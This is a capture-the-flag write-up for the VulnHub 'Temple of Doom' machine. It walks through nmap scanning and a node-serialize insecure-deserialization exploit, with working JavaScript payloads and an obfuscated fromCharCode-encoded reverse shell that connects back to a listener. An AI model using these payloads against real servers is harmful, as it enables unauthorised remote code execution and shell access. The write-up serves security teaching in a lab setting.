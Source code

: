 # Temple of Doom

* ### Setup

  Download the virtual machine <a href="https://www.vulnhub.com/entry/temple-of-doom-1,243/">here</a> and import it in either VirtualBox or VMWare.
  * **Addresses** - This will be important to understand the writeup.
    * My Kali machine: **10.0.2.15**
    * Temple of Doom machine: **10.0.2.14**
  

  
### Information Gathering
---

* Running **nmap** with `nmap -sC -sV -p- -A -oA templeofdoom 10.0.2.14` reveals **two** ports.
<img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Temple%20of%20Doom/images/1.jpg"> 

1. **SSH** on default port **22** .
2. A <a href="https://en.wikipedia.org/wiki/Node.js">NodeJs</a> server running at port **666**.

Let's check the server at port **666**, while also setting **gobuster** and **nikto** running in the background.

<img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Temple%20of%20Doom/images/2.jpg">

We see an under construction message. After fuzzing the url a little bit and reloading the page a few times, the application errors out with 

<img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Temple%20of%20Doom/images/3.jpg">

This error tells us that something went wrong with the serialization process and we also notice the module doing the serialization is **node-serialize**.

* Unfortunately, this module contains a serious **deserialization vulnerability**, allowing **remote code execution**. There is a great analysis of such attacks in nodejs in this pdf https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf

### Vulnerability Analysis
---
* First we need to understand what a **deserialization vulnerablity** is. From <a href="https://www.acunetix.com/blog/articles/what-is-insecure-deserialization/">this article</a> by http://acunetix.com, 
> **_Insecure Deserialization_** is a vulnerability which occurs when untrusted data is used to abuse the logic of an application, inflict a denial of service (DoS) attack, or even execute arbitrary code upon it being deserialized. It also occupies the **#8 spot in the OWASP Top 10 2017 list.**
Serialization refers to a process of converting an object into a format which can be persisted to disk (for example saved to a file or a datastore), sent through streams (for example stdout), or sent over a network. JSON and XML are two of the most commonly used serialization formats within web applications.
Deserialization on the other hand, is the opposite of serialization, that is, transforming serialized data coming from a file, stream or network socket into an object.
Web applications make use of serialization and deserialization on a regular basis and most programming languages even provide native features to serialize data. **It’s important to understand that safe deserialization of objects is normal practice in software development. The trouble however, starts when deserializing untrusted user input.**

Based on the paper mentioned in the Information gathering section, we will **create a test environment to confirm the vulnerablitiy.**

**1.** First install **npm** with `apt install npm`, then the vulnerable **node-serialize** module with `npm install node-serialize`.  
  Note: npm will now warn you the node-serialize was found to contain a serious vulnerability.
  
**2.** Let's create a test object and then pass it to the **serialize** function.
  ```javascript
  var obj = {
rce : function(){
require('child_process').exec('id /', function(error,
stdout, stderr) { console.log(stdout) });
},
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(obj));
```
Saving the above code into a file called serialized.js and executing with `node serialized.js` outputs the serialized object
```javascript
{"rce":"_$$ND_FUNC$$_function(){\nrequire('child_process').exec('id', function(error,\nstdout, stderr) { console.log(stdout) });\n}"}
```
**3.** The main problem now is that even if this object is **unserialized**, nothing will execute unless the function with tag **"rce"** is called. Thankfully for us, Javascript contains a feature called **_Immediately invoked
function expression (IIFE)_** for calling the function. If we use IIFE bracket
() after the function body, the function **will get invoked when the object is
created.**
As such, our **new payload** is
```javascript
{"rce":"_$$ND_FUNC$$_function(){\nrequire('child_process').exec('id', function(error,\nstdout, stderr) { console.log(stdout) });\n}()"}
```
**Note the parentheses in the end.**

**4.** Create another script called **unserialize.js**, emulating the server behaviour with
```javascript
var serialize = require('node-serialize');
var payload = {"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'id \',function(error, stdout, stderr) { console.log(stdout)});}()"};
serialize.unserialize(payload);
```
and run it.

<img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Temple%20of%20Doom/images/4.jpg">

**We can clearly see our code got executed!**

**5.** For further testing, there is a very handy tool called <a href="https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py">nodejsshell.py</a>, that will help us create a **reverse shell** which will run in **node**.
For local testing purposes, run it with `python nodejsshell.py 127.0.0.1 1337` to create a payload that will send back a shell at localhost on port 1337. This is the outputted code:
```javascript
eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,50,55,46,48,46,48,46,49,34,59,10,80,79,82,84,61,34,49,51,51,55,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))
```

We must put this in our final payload called localtest.js
```javascript
var serialize = require('node-serialize');
var payload = {"rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,50,55,46,48,46,48,46,49,34,59,10,80,79,82,84,61,34,49,51,51,55,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"};
serialize.unserialize(payload);
```
and run locally, while also listening on port **1337**.

<img src="https://github.com/astasinos/Writeups/blob/master/Vulnhub/Temple%20of%20Doom/images/5.jpg">

**We have a shell!**. Now we have to do the same on the remote machine.


